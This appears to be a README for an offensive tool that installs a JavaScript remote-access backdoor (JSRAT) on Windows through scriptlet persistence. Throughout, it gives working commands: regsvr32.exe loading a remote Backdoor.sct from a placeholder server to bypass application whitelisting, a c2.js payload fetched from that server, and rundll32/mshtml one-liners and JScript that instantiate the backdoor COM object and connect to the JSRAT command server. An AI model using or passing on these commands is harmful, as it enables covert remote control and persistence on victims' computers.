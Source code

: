 Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee

https://github.com/subTee/SCTPersistence


His Way:
1.On host, execute regsvr32.exe /s /i:http://server/Backdoor.sct scrobj.dll
-The default is to use the path to a local file
-rewrite the regkey
-the Class definition comes form the interwebs http://server/c2.js
2.c2.js
-javascript payload
-.sct format
3.call the COM Object
-cmd
`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Component.Backdoor");x.Main();
or`
-js
`var x = new ActiveXObject("Component.Backdoor");
x.Main();
var x = new ActiveXObject("Component.Backdoor");
x.Exec();`

My Way:
1.On host, execute regsvr32.exe /s /i:http://server/Backdoor.sct scrobj.dll
-The default is to use the path to a local file
-Connect to the JSRAT server
2.call the COM Object
-cmd
`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Empire");x.Exec();`
-js
`var ref = new ActiveXObject("JSRAT");
ref.Exec();`




---
###Usage:

1.(local)


`regsvr32.exe /s /i:Backdoor.sct scrobj.dll`


or (remote)


`regsvr32.exe /s /i:http://example/Backdoor.sct scrobj.dll`


2.run BackdoorTest.js to start JSRAT

 













